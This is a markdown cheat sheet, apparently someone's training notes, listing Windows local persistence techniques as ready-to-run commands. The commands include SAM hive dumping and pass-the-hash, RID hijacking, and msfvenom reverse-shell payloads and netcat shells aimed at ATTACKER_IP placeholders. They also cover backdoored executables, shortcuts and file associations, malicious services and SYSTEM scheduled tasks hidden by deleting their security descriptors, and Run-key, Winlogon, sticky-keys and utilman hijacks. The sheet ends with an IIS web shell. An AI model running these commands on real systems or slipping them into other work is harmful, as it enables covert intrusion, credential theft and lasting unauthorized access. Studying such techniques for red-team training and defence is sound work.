



# Local Persistence
## Tampering With Unprivileged Accounts
### Assigning Group Memberships
Assigning user specific specific groups may allow attacker to establish persistence.

Add user to a group:
```bat
net localgroup administrators <username> /add
net localgroup <group_name> <username> /add
```

One of the features implemented by UAC, `LocalAccountTokenFilterPolicy`, strips any local account of its administrative privileges when logging in remotely. In this case `whoami /groups` returns `Group used for deny only`. It can be disabled by:
```bat
reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /t REG_DWORD /v LocalAccountTokenFilterPolicy /d 1
```

Connect to victim:
```
evil-winrm -i $IP -u user -p password
```

Download `SAM` and `SYSTEM` hives:
```bat
reg save hklm\system system.bak
reg save hklm\sam sam.bak
download system.bak
download sam.bak
```

Extract password hashes from offline registry hives.
```
impacket-secretsdump -sam sam.bak -system system.bak LOCAL
```

Perform Pass-The-Hash attack:
```
evil-winrm -i $ip -u <user> -H <nt_hash>
```

### Special Privileges and Security Descriptors
Assigning to user specific privileges may allow attacker to establish persistence.

Export and edit current security settings:
```bat
secedit /export /cfg config.inf
notepad.exe config.inf
```

Convert the `.inf` file into a `.sd`b and load the configuration back into the system:
```
secedit /import /cfg config.inf /db config.sdb
secedit /configure /db config.sdb /cfg config.inf
```

||
|:--:| 
| *Modification of config.inf* |

Configure security descriptor associated with the WinRM service to allow user to connect:
```
Set-PSSessionConfiguration -Name Microsoft.PowerShell -showSecurityDescriptorUI
```
In GUI: `Add` user, provide `username`, grant `Full Control (All operations)` to user.

One of the features implemented by UAC, `LocalAccountTokenFilterPolicy`, strips any local account of its administrative privileges when logging in remotely. In this case `whoami /groups` returns `Group used for deny only`. It can be disabled by:
```bat
reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /t REG_DWORD /v LocalAccountTokenFilterPolicy /d 1
```

### RID Hijacking
Changing registry values regarding `RID` may allow attacket to make the operating system think he is the Administrator and therefore give him persistance.

`SID` (Security Identifier) is a unique identifier assigned to every security principal (user, group, computer) when it’s created.
`RID` (Relative Identifier) is a part of Windows security identifiers (`SIDs`).

| `RID` | Description |
|:-----:|:-----------:|
|500	|Built-in Administrator account |
|501	|Built-in Guest account |
|512	|Domain Users group |
|513	|Domain Guests group |

List users' `SIDS`:
```bat
wmic useraccount get name,sid
```

Modify user `RID` via `regedit` to `500 = 0x01F4`:
```bat
PsExec64.exe -i -s regedit
    HKLM\SAM\SAM\Domains\Account\Users\
```
||
|:--:| 
| *Modification of RID* |
| *Original value: 1010 = 0x03F2 * |
| *Target value: 500 = 0x01F4 * |

The next time user logs in, `LSASS` will associate it with the same RID as Administrator and grant them the same privileges.

## Backdooring Files

### Backdooring Executable Files
Backdooring (modifying) popular executables may allow attacker to establish persistance.

```
msfvenom -a x64 --platform windows -x putty.exe -k -p windows/x64/shell_reverse_tcp lhost=ATTACKER_IP lport=4444 -b "\x00" -f exe -o puttyX.exe
```

### Backdooring Shortcut Files
Backdooring (modifying) or creating shortcuts files may allow attacker to establish persistance.

Example `backdoor.ps1` script:
```powershell
Start-Process -NoNewWindow "c:\tools\nc64.exe" "-e cmd.exe ATTACKER_IP ATTACKER_PORT"
C:\Windows\System32\calc.exe # Imitating calc.exe
```

Target of shorcut file:
```powershell
powershell.exe -WindowStyle hidden C:\Windows\System32\backdoor.ps1
```

### Hijacking File Associations
The default operating system file associations are kept inside the registry, where a key is stored for every single file type under `HKLM\Software\Classes\`. Every file type has its own `Programmatic ID` (`ProgID`), for example `.txt` is `txtfile`. Application handling `ProgID == txtfile` can be found at `HKLM\Software\Classes\txtfile\shell\open\command`. Attacker may established persistance by placing in this registry backdoor file.

Example `backdoor.ps1` script:
```powershell
Start-Process -NoNewWindow "c:\tools\nc64.exe" "-e cmd.exe ATTACKER_IP ATTACKER_PORT"
C:\Windows\system32\NOTEPAD.EXE $args[0] # Imitating notepad.exe, passing original file to it
```

Registry value:
```powershell
powershell.exe -WindowStyle hidden C:\Windows\System32\backdoor.ps1 %1
```

## Abusing Services
### Creating Backdoor Services
Creating malicious service may allow attacker to establish persistance.

Create malicious service executable:
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=ATTACKER_PORT -f exe-service -o revshell-svc.exe
```

```
sc.exe create BackdoorService binPath= "C:\windows\revshell-svc.exe" start= auto
sc.exe start BackdoorService
```

### Modifying existing services
Modification of old services may allow attacker to establish persistance.

List of available services
```
sc.exe query state=all
```

Query the service's configuration:
```
sc.exe qc <service_name>
```

Create malicious service executable:
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=ATTACKER_PORT -f exe-service -o revshell-svc.exe
```

```
sc.exe stop <service_name> 
sc.exe config <service_name> binPath= "C:\Windows\rev-svc2.exe" start= auto obj= "LocalSystem"
sc.exe start <service_name>
```

## Abusing Scheduled Tasks

### Creating Backdoor Scheduled Tasks
Creating scheduled task may allow attacker to establish persistance.

Create malicious sheduled task:
```
schtasks /create /sc minute /mo 1 /tn Backdoor /tr "c:\tools\nc64 -e cmd.exe ATTACKER_IP ATTACKER_PORT" /ru SYSTEM
```

Check if our task was successfully created:
```
schtasks /query /tn <task_name>
```

### Making Scheduled Task Invisible
To hide scheduled task, attacker can make it invisible to any user in the system by deleting its Security Descriptor (`SD`). The Security Descriptor is simply an `ACL`. Deleting the SD is equivalent to disallowing all users' access to the scheduled task, including administrators.


Delete `SD` entry via `regedit`:
```
c:\tools\pstools\PsExec64.exe -s -i regedit
    HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Schedule\TaskCache\Tree\<task_name>
```


||
|:--:| 
| *Deletion of Security Descriptor* |


## Logon Triggered Persistence
### Startup folder
Adding malicious binary to startup folder may allow attacker to establish persistance.

Startup folderlocations:
```
For specific user - C:\Users\<username>\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup
For all users     - C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp
```

Create malicious executable:
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=ATTACKER_PORT -f exe -o revshell.exe
```

Place the generated executable in a startup folder:
```
copy revshell.exe "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp\"
```

To trigger the generated executable log out and log in.

### Run / RunOnce
Modification of registries keys may allow attacker to establish persistance.

Attacker can force user to execute a program on logon via the follwing registries:
```
HKCU\Software\Microsoft\Windows\CurrentVersion\Run
HKCU\Software\Microsoft\Windows\CurrentVersion\RunOnce
HKLM\Software\Microsoft\Windows\CurrentVersion\Run
HKLM\Software\Microsoft\Windows\CurrentVersion\RunOnce
```

Create malicious executable:
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=ATTACKER_PORT -f exe -o revshell.exe
```

Attacker can create new entry in registries from above to point to generated executable. Entry should have `REG_EXPAND_SZ` type.

### Winlogon
Modification of registries keys may allow attacker to establish persistance.

Winlogon uses some registry keys under `HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\` that could be usefull to gain persistence:
- `Userinit` points to `userinit.exe`
- `shell` points to `explorer.exe`

Create malicious executable:
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=ATTACKER_PORT -f exe -o revshell.exe
```

Attacker can append the generated executable to the `Userinit` or `shell` key using `;`.


### Logon scripts
Modification of registries keys may allow attacker to establish persistance. 

Program `userinit.exe` while loading user profile checks for an environment variable called `UserInitMprLogonScript` (`HKCU\Environment`). Programs placed in this variable would be executed.

Entry `UserInitMprLogonScript` should have `REG_EXPAND_SZ` type.

## Backdooring the Login Screen / RDP
### Sticky Keys
Sticky Keys is an accessibility feature that lets you press keyboard shortcuts (like `Ctrl+C` or `Alt+Tab`) without having to hold down multiple keys at the same time. To establish persistance attacker can overwrite `C:\Windows\System32\sethc.exe` binary which is responsible for `SHIFT` clicked 5 times.

```bat
takeown /f c:\Windows\System32\sethc.exe
icacls C:\Windows\System32\sethc.exe /grant Administrator:F
copy c:\Windows\System32\cmd.exe C:\Windows\System32\sethc.exe
```

### Utilman
`Utilman` is a built-in Windows application used to provide `Ease of Access` options during the lock screen. To establish persistance attacker can overwrite `C:\Windows\System32\utilman.exe`

```bat
takeown /f c:\Windows\System32\utilman.exe
icacls C:\Windows\System32\utilman.exe /grant Administrator:F
copy c:\Windows\System32\cmd.exe C:\Windows\System32\utilman.exe
```

## Persisting Through Existing Services
### Using Web Shells
Attacker can establish persisance by using Web Shells. This method grants access with the privileges of the configured user in `IIS`, which by default is iis `apppool\defaultapppool`. Moreover, this user has `SeImpersonatePrivilege` which allow for privilege escalation.

Download [webshell](https://github.com/tennc/webshell/blob/master/fuzzdb-webshell/asp/cmdasp.aspx) and place it in `C:\inetpub\wwwroot\` folder:
```
move shell.aspx C:\inetpub\wwwroot\
```

Grant permission to file (if necesarry):
```
icacls shell.aspx /grant Everyone:F
```

Open webshell in browser:
```
http://VICTIM_IP/shell.aspx
```


